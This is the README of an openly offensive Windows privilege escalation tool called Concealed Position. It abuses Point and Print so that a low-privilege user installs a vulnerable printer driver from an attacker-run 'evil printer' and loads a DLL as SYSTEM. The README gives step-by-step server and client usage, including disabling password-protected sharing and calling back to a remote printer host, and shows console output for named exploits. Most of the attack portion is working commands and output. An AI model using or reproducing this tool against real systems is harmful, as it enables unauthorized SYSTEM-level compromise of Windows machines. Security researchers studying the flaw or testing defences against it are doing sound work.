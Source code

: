 # Concealed Position

## What is this?
Concealed Position is a local privilege escalation attack against Windows using the concept of "Bring Your Own Vulnerability". Specifically, CP uses the Point and Print logic in Windows that allows a low privilege user to install printer driverss. We then exploit the installed driver to escalate to SYSTEM.

## How does it work?
Concealed Position has two parts. A server (pretending to be a printer) and a client (which will do the LPE). The client reaches out to the server, grabs a driver, gets the driver stored in the driver store, installs the printer, and exploits the install process. Easy!

## I want to add to this!
Cool! Should be pretty easy. The only hard part is that the printer driver must be packaged into a CAB file.

## How do I use this super neat tool?

Let's walk through a step by step guide.

### Server (evil printer) Usage 
To start we prepare the server. It must be a Windows box and it is assumed the attacker has admin privs on this box.

1. Copy the 3rdparty directory onto the Windows box.
2. Copy the cp_server binary (from the bin directory) onto the Windows box.
3. Copy the cab_files directory (from the Windows box) onto the Windows box.
4. From the 3rdparty directory, run converter.exe.
5. From the 3rdparty directory, run CuteWriter.exe.
6. As Administrator, run cp_server.exe. Ensure that the cab_files directory is in the same directory as cp_server.exe. The output should look like this:

```
C:\Users\albinolobster\Desktop>cp_server.exe -h
CLI options:
  -h, --help         Display the help message
  -e, --exploit arg  The exploit to use

Exploits available:
        ACIDDAMAGE
        POISONDAMAGE
        RADIANTDAMAGE

C:\Users\albinolobster\Desktop>cp_server.exe -e ACIDDAMAGE
[+] Checking CutePDF Writer is installed
[+] Staging ACIDDAMAGE files
[+] Opening CutePDF Writer registry for writing
[+] Setting PrinterDriverAttributes
[+] Setting InfPath
[+] Done.
[!] MANUAL STEPS!
[1] Set CutePDF Writer as a shared printer
[2] In Advanced Sharing Settings, Turn on file and printer sharing.
[3] In Advanced Sharing Settings, Turn off password protected sharing.
[4] Reboot

C:\Users\albinolobster\Desktop>
```

7. Set CutePDF Writer as a shared printer (Printer & Scanners -> CutePDF Writer -> Manage -> Printer Properties -> Sharing -> Share this printer)
8. Enable File and Printer sharing (Manage advanced sharing settings -> Guest or Public -> Turn on file and printer sharing)
9. Disable password protected sharing (Manage advanced sharing settings -> All Networks -> Turn off password protected sharing)
10. Reboot

### Client Usage

Client is assumed to be a low privileged user on a Windows box.

1. Copy cp_client.exe to the machine (from bin directory).
2. Provide cp_client.exe with: the evil printer to connect to (-r), the name of the evil printer (-n), and the expected driver (-e).

```
C:\Users\lowlevel\Desktop>cp_client.exe -h
 _______  _______  __    _  _______  _______  _______  ___      _______  ______
|       ||       ||  |  | ||       ||       ||   _   ||   |    |       ||      |
|       ||   _   ||   |_| ||       ||    ___||  |_|  ||   |    |    ___||  _    |
|       ||  | |  ||       ||       ||   |___ |       ||   |    |   |___ | | |   |
|      _||  |_|  ||  _    ||      _||    ___||       ||   |___ |    ___|| |_|   |
|     |_ |       || | |   ||     |_ |   |___ |   _   ||       ||   |___ |       |
|_______||_______||_|  |__||_______||_______||__| |__||_______||_______||______|
 _______  _______  _______  ___   _______  ___   _______  __    _
|       ||       ||       ||   | |       ||   | |       ||  |  | |
|    _  ||   _   ||  _____||   | |_     _||   | |   _   ||   |_| |
|   |_| ||  | |  || |_____ |   |   |   |  |   | |  | |  ||       |
|    ___||  |_|  ||_____  ||   |   |   |  |   | |  |_|  ||  _    |
|   |    |       | _____| ||   |   |   |  |   | |       || | |   |
|___|    |_______||_______||___|   |___|  |___| |_______||_|  |__|

CLI options:
  -h, --help         Display the help message
  -r, --rhost arg    The remote evil printer address
  -n, --name arg     The remote evil printer name
  -e, --exploit arg  The exploit to use

Exploits available:
        ACIDDAMAGE
        POISONDAMAGE
        RADIANTDAMAGE
C:\Users\lowlevel\Desktop>cp_client.exe -r 192.168.237.176 -n "CutePDF Writer" -e ACIDDAMAGE
 _______  _______  __    _  _______  _______  _______  ___      _______  ______
|       ||       ||  |  | ||       ||       ||   _   ||   |    |       ||      |
|       ||   _   ||   |_| ||       ||    ___||  |_|  ||   |    |    ___||  _    |
|       ||  | |  ||       ||       ||   |___ |       ||   |    |   |___ | | |   |
|      _||  |_|  ||  _    ||      _||    ___||       ||   |___ |    ___|| |_|   |
|     |_ |       || | |   ||     |_ |   |___ |   _   ||       ||   |___ |       |
|_______||_______||_|  |__||_______||_______||__| |__||_______||_______||______|
 _______  _______  _______  ___   _______  ___   _______  __    _
|       ||       ||       ||   | |       ||   | |       ||  |  | |
|    _  ||   _   ||  _____||   | |_     _||   | |   _   ||   |_| |
|   |_| ||  | |  || |_____ |   |   |   |  |   | |  | |  ||       |
|    ___||  |_|  ||_____  ||   |   |   |  |   | |  |_|  ||  _    |
|   |    |       | _____| ||   |   |   |  |   | |       || | |   |
|___|    |_______||_______||___|   |___|  |___| |_______||_|  |__|

[+] Checking if driver is already installed
[-] Driver is not available.
[+] Call back to evil printer @ \\192.168.237.176\CutePDF Writer
[+] Staging driver in driver store
[+] Driver staged!
[+] Installing the staged driver
[+] Driver installed!
[+] Starting ACIDDAMAGE
[+] Checking if C:\ProgramData\Lexmark Universal v2\ exists
[-] Target directory doesn't exist. Trigger install.
[+] Installing printer
[+] Read in C:\ProgramData\Lexmark Universal v2\Universal Color Laser.gdl
[+] Searching file contents
[+] Updating file contents
[+] Dropping updated gpl
[+] Dropping dll to disk
[+] Installing printer

C:\Users\lowlevel\Desktop>
```

3. The exploit should automatically run. On success, the "inject_me" binary is loaded with SYSTEM privileges. As this is a simple PoC it simply executes "WinExec("cmd.exe /c whoami > c:\\result.txt", SW_HIDE);"

### Other things

One thing to note is that the inject_me dll is actually embedded in the cp_client as a C array. If you update inject_me, you'll need to manually update the C array as well (just use xxd to generate the array).

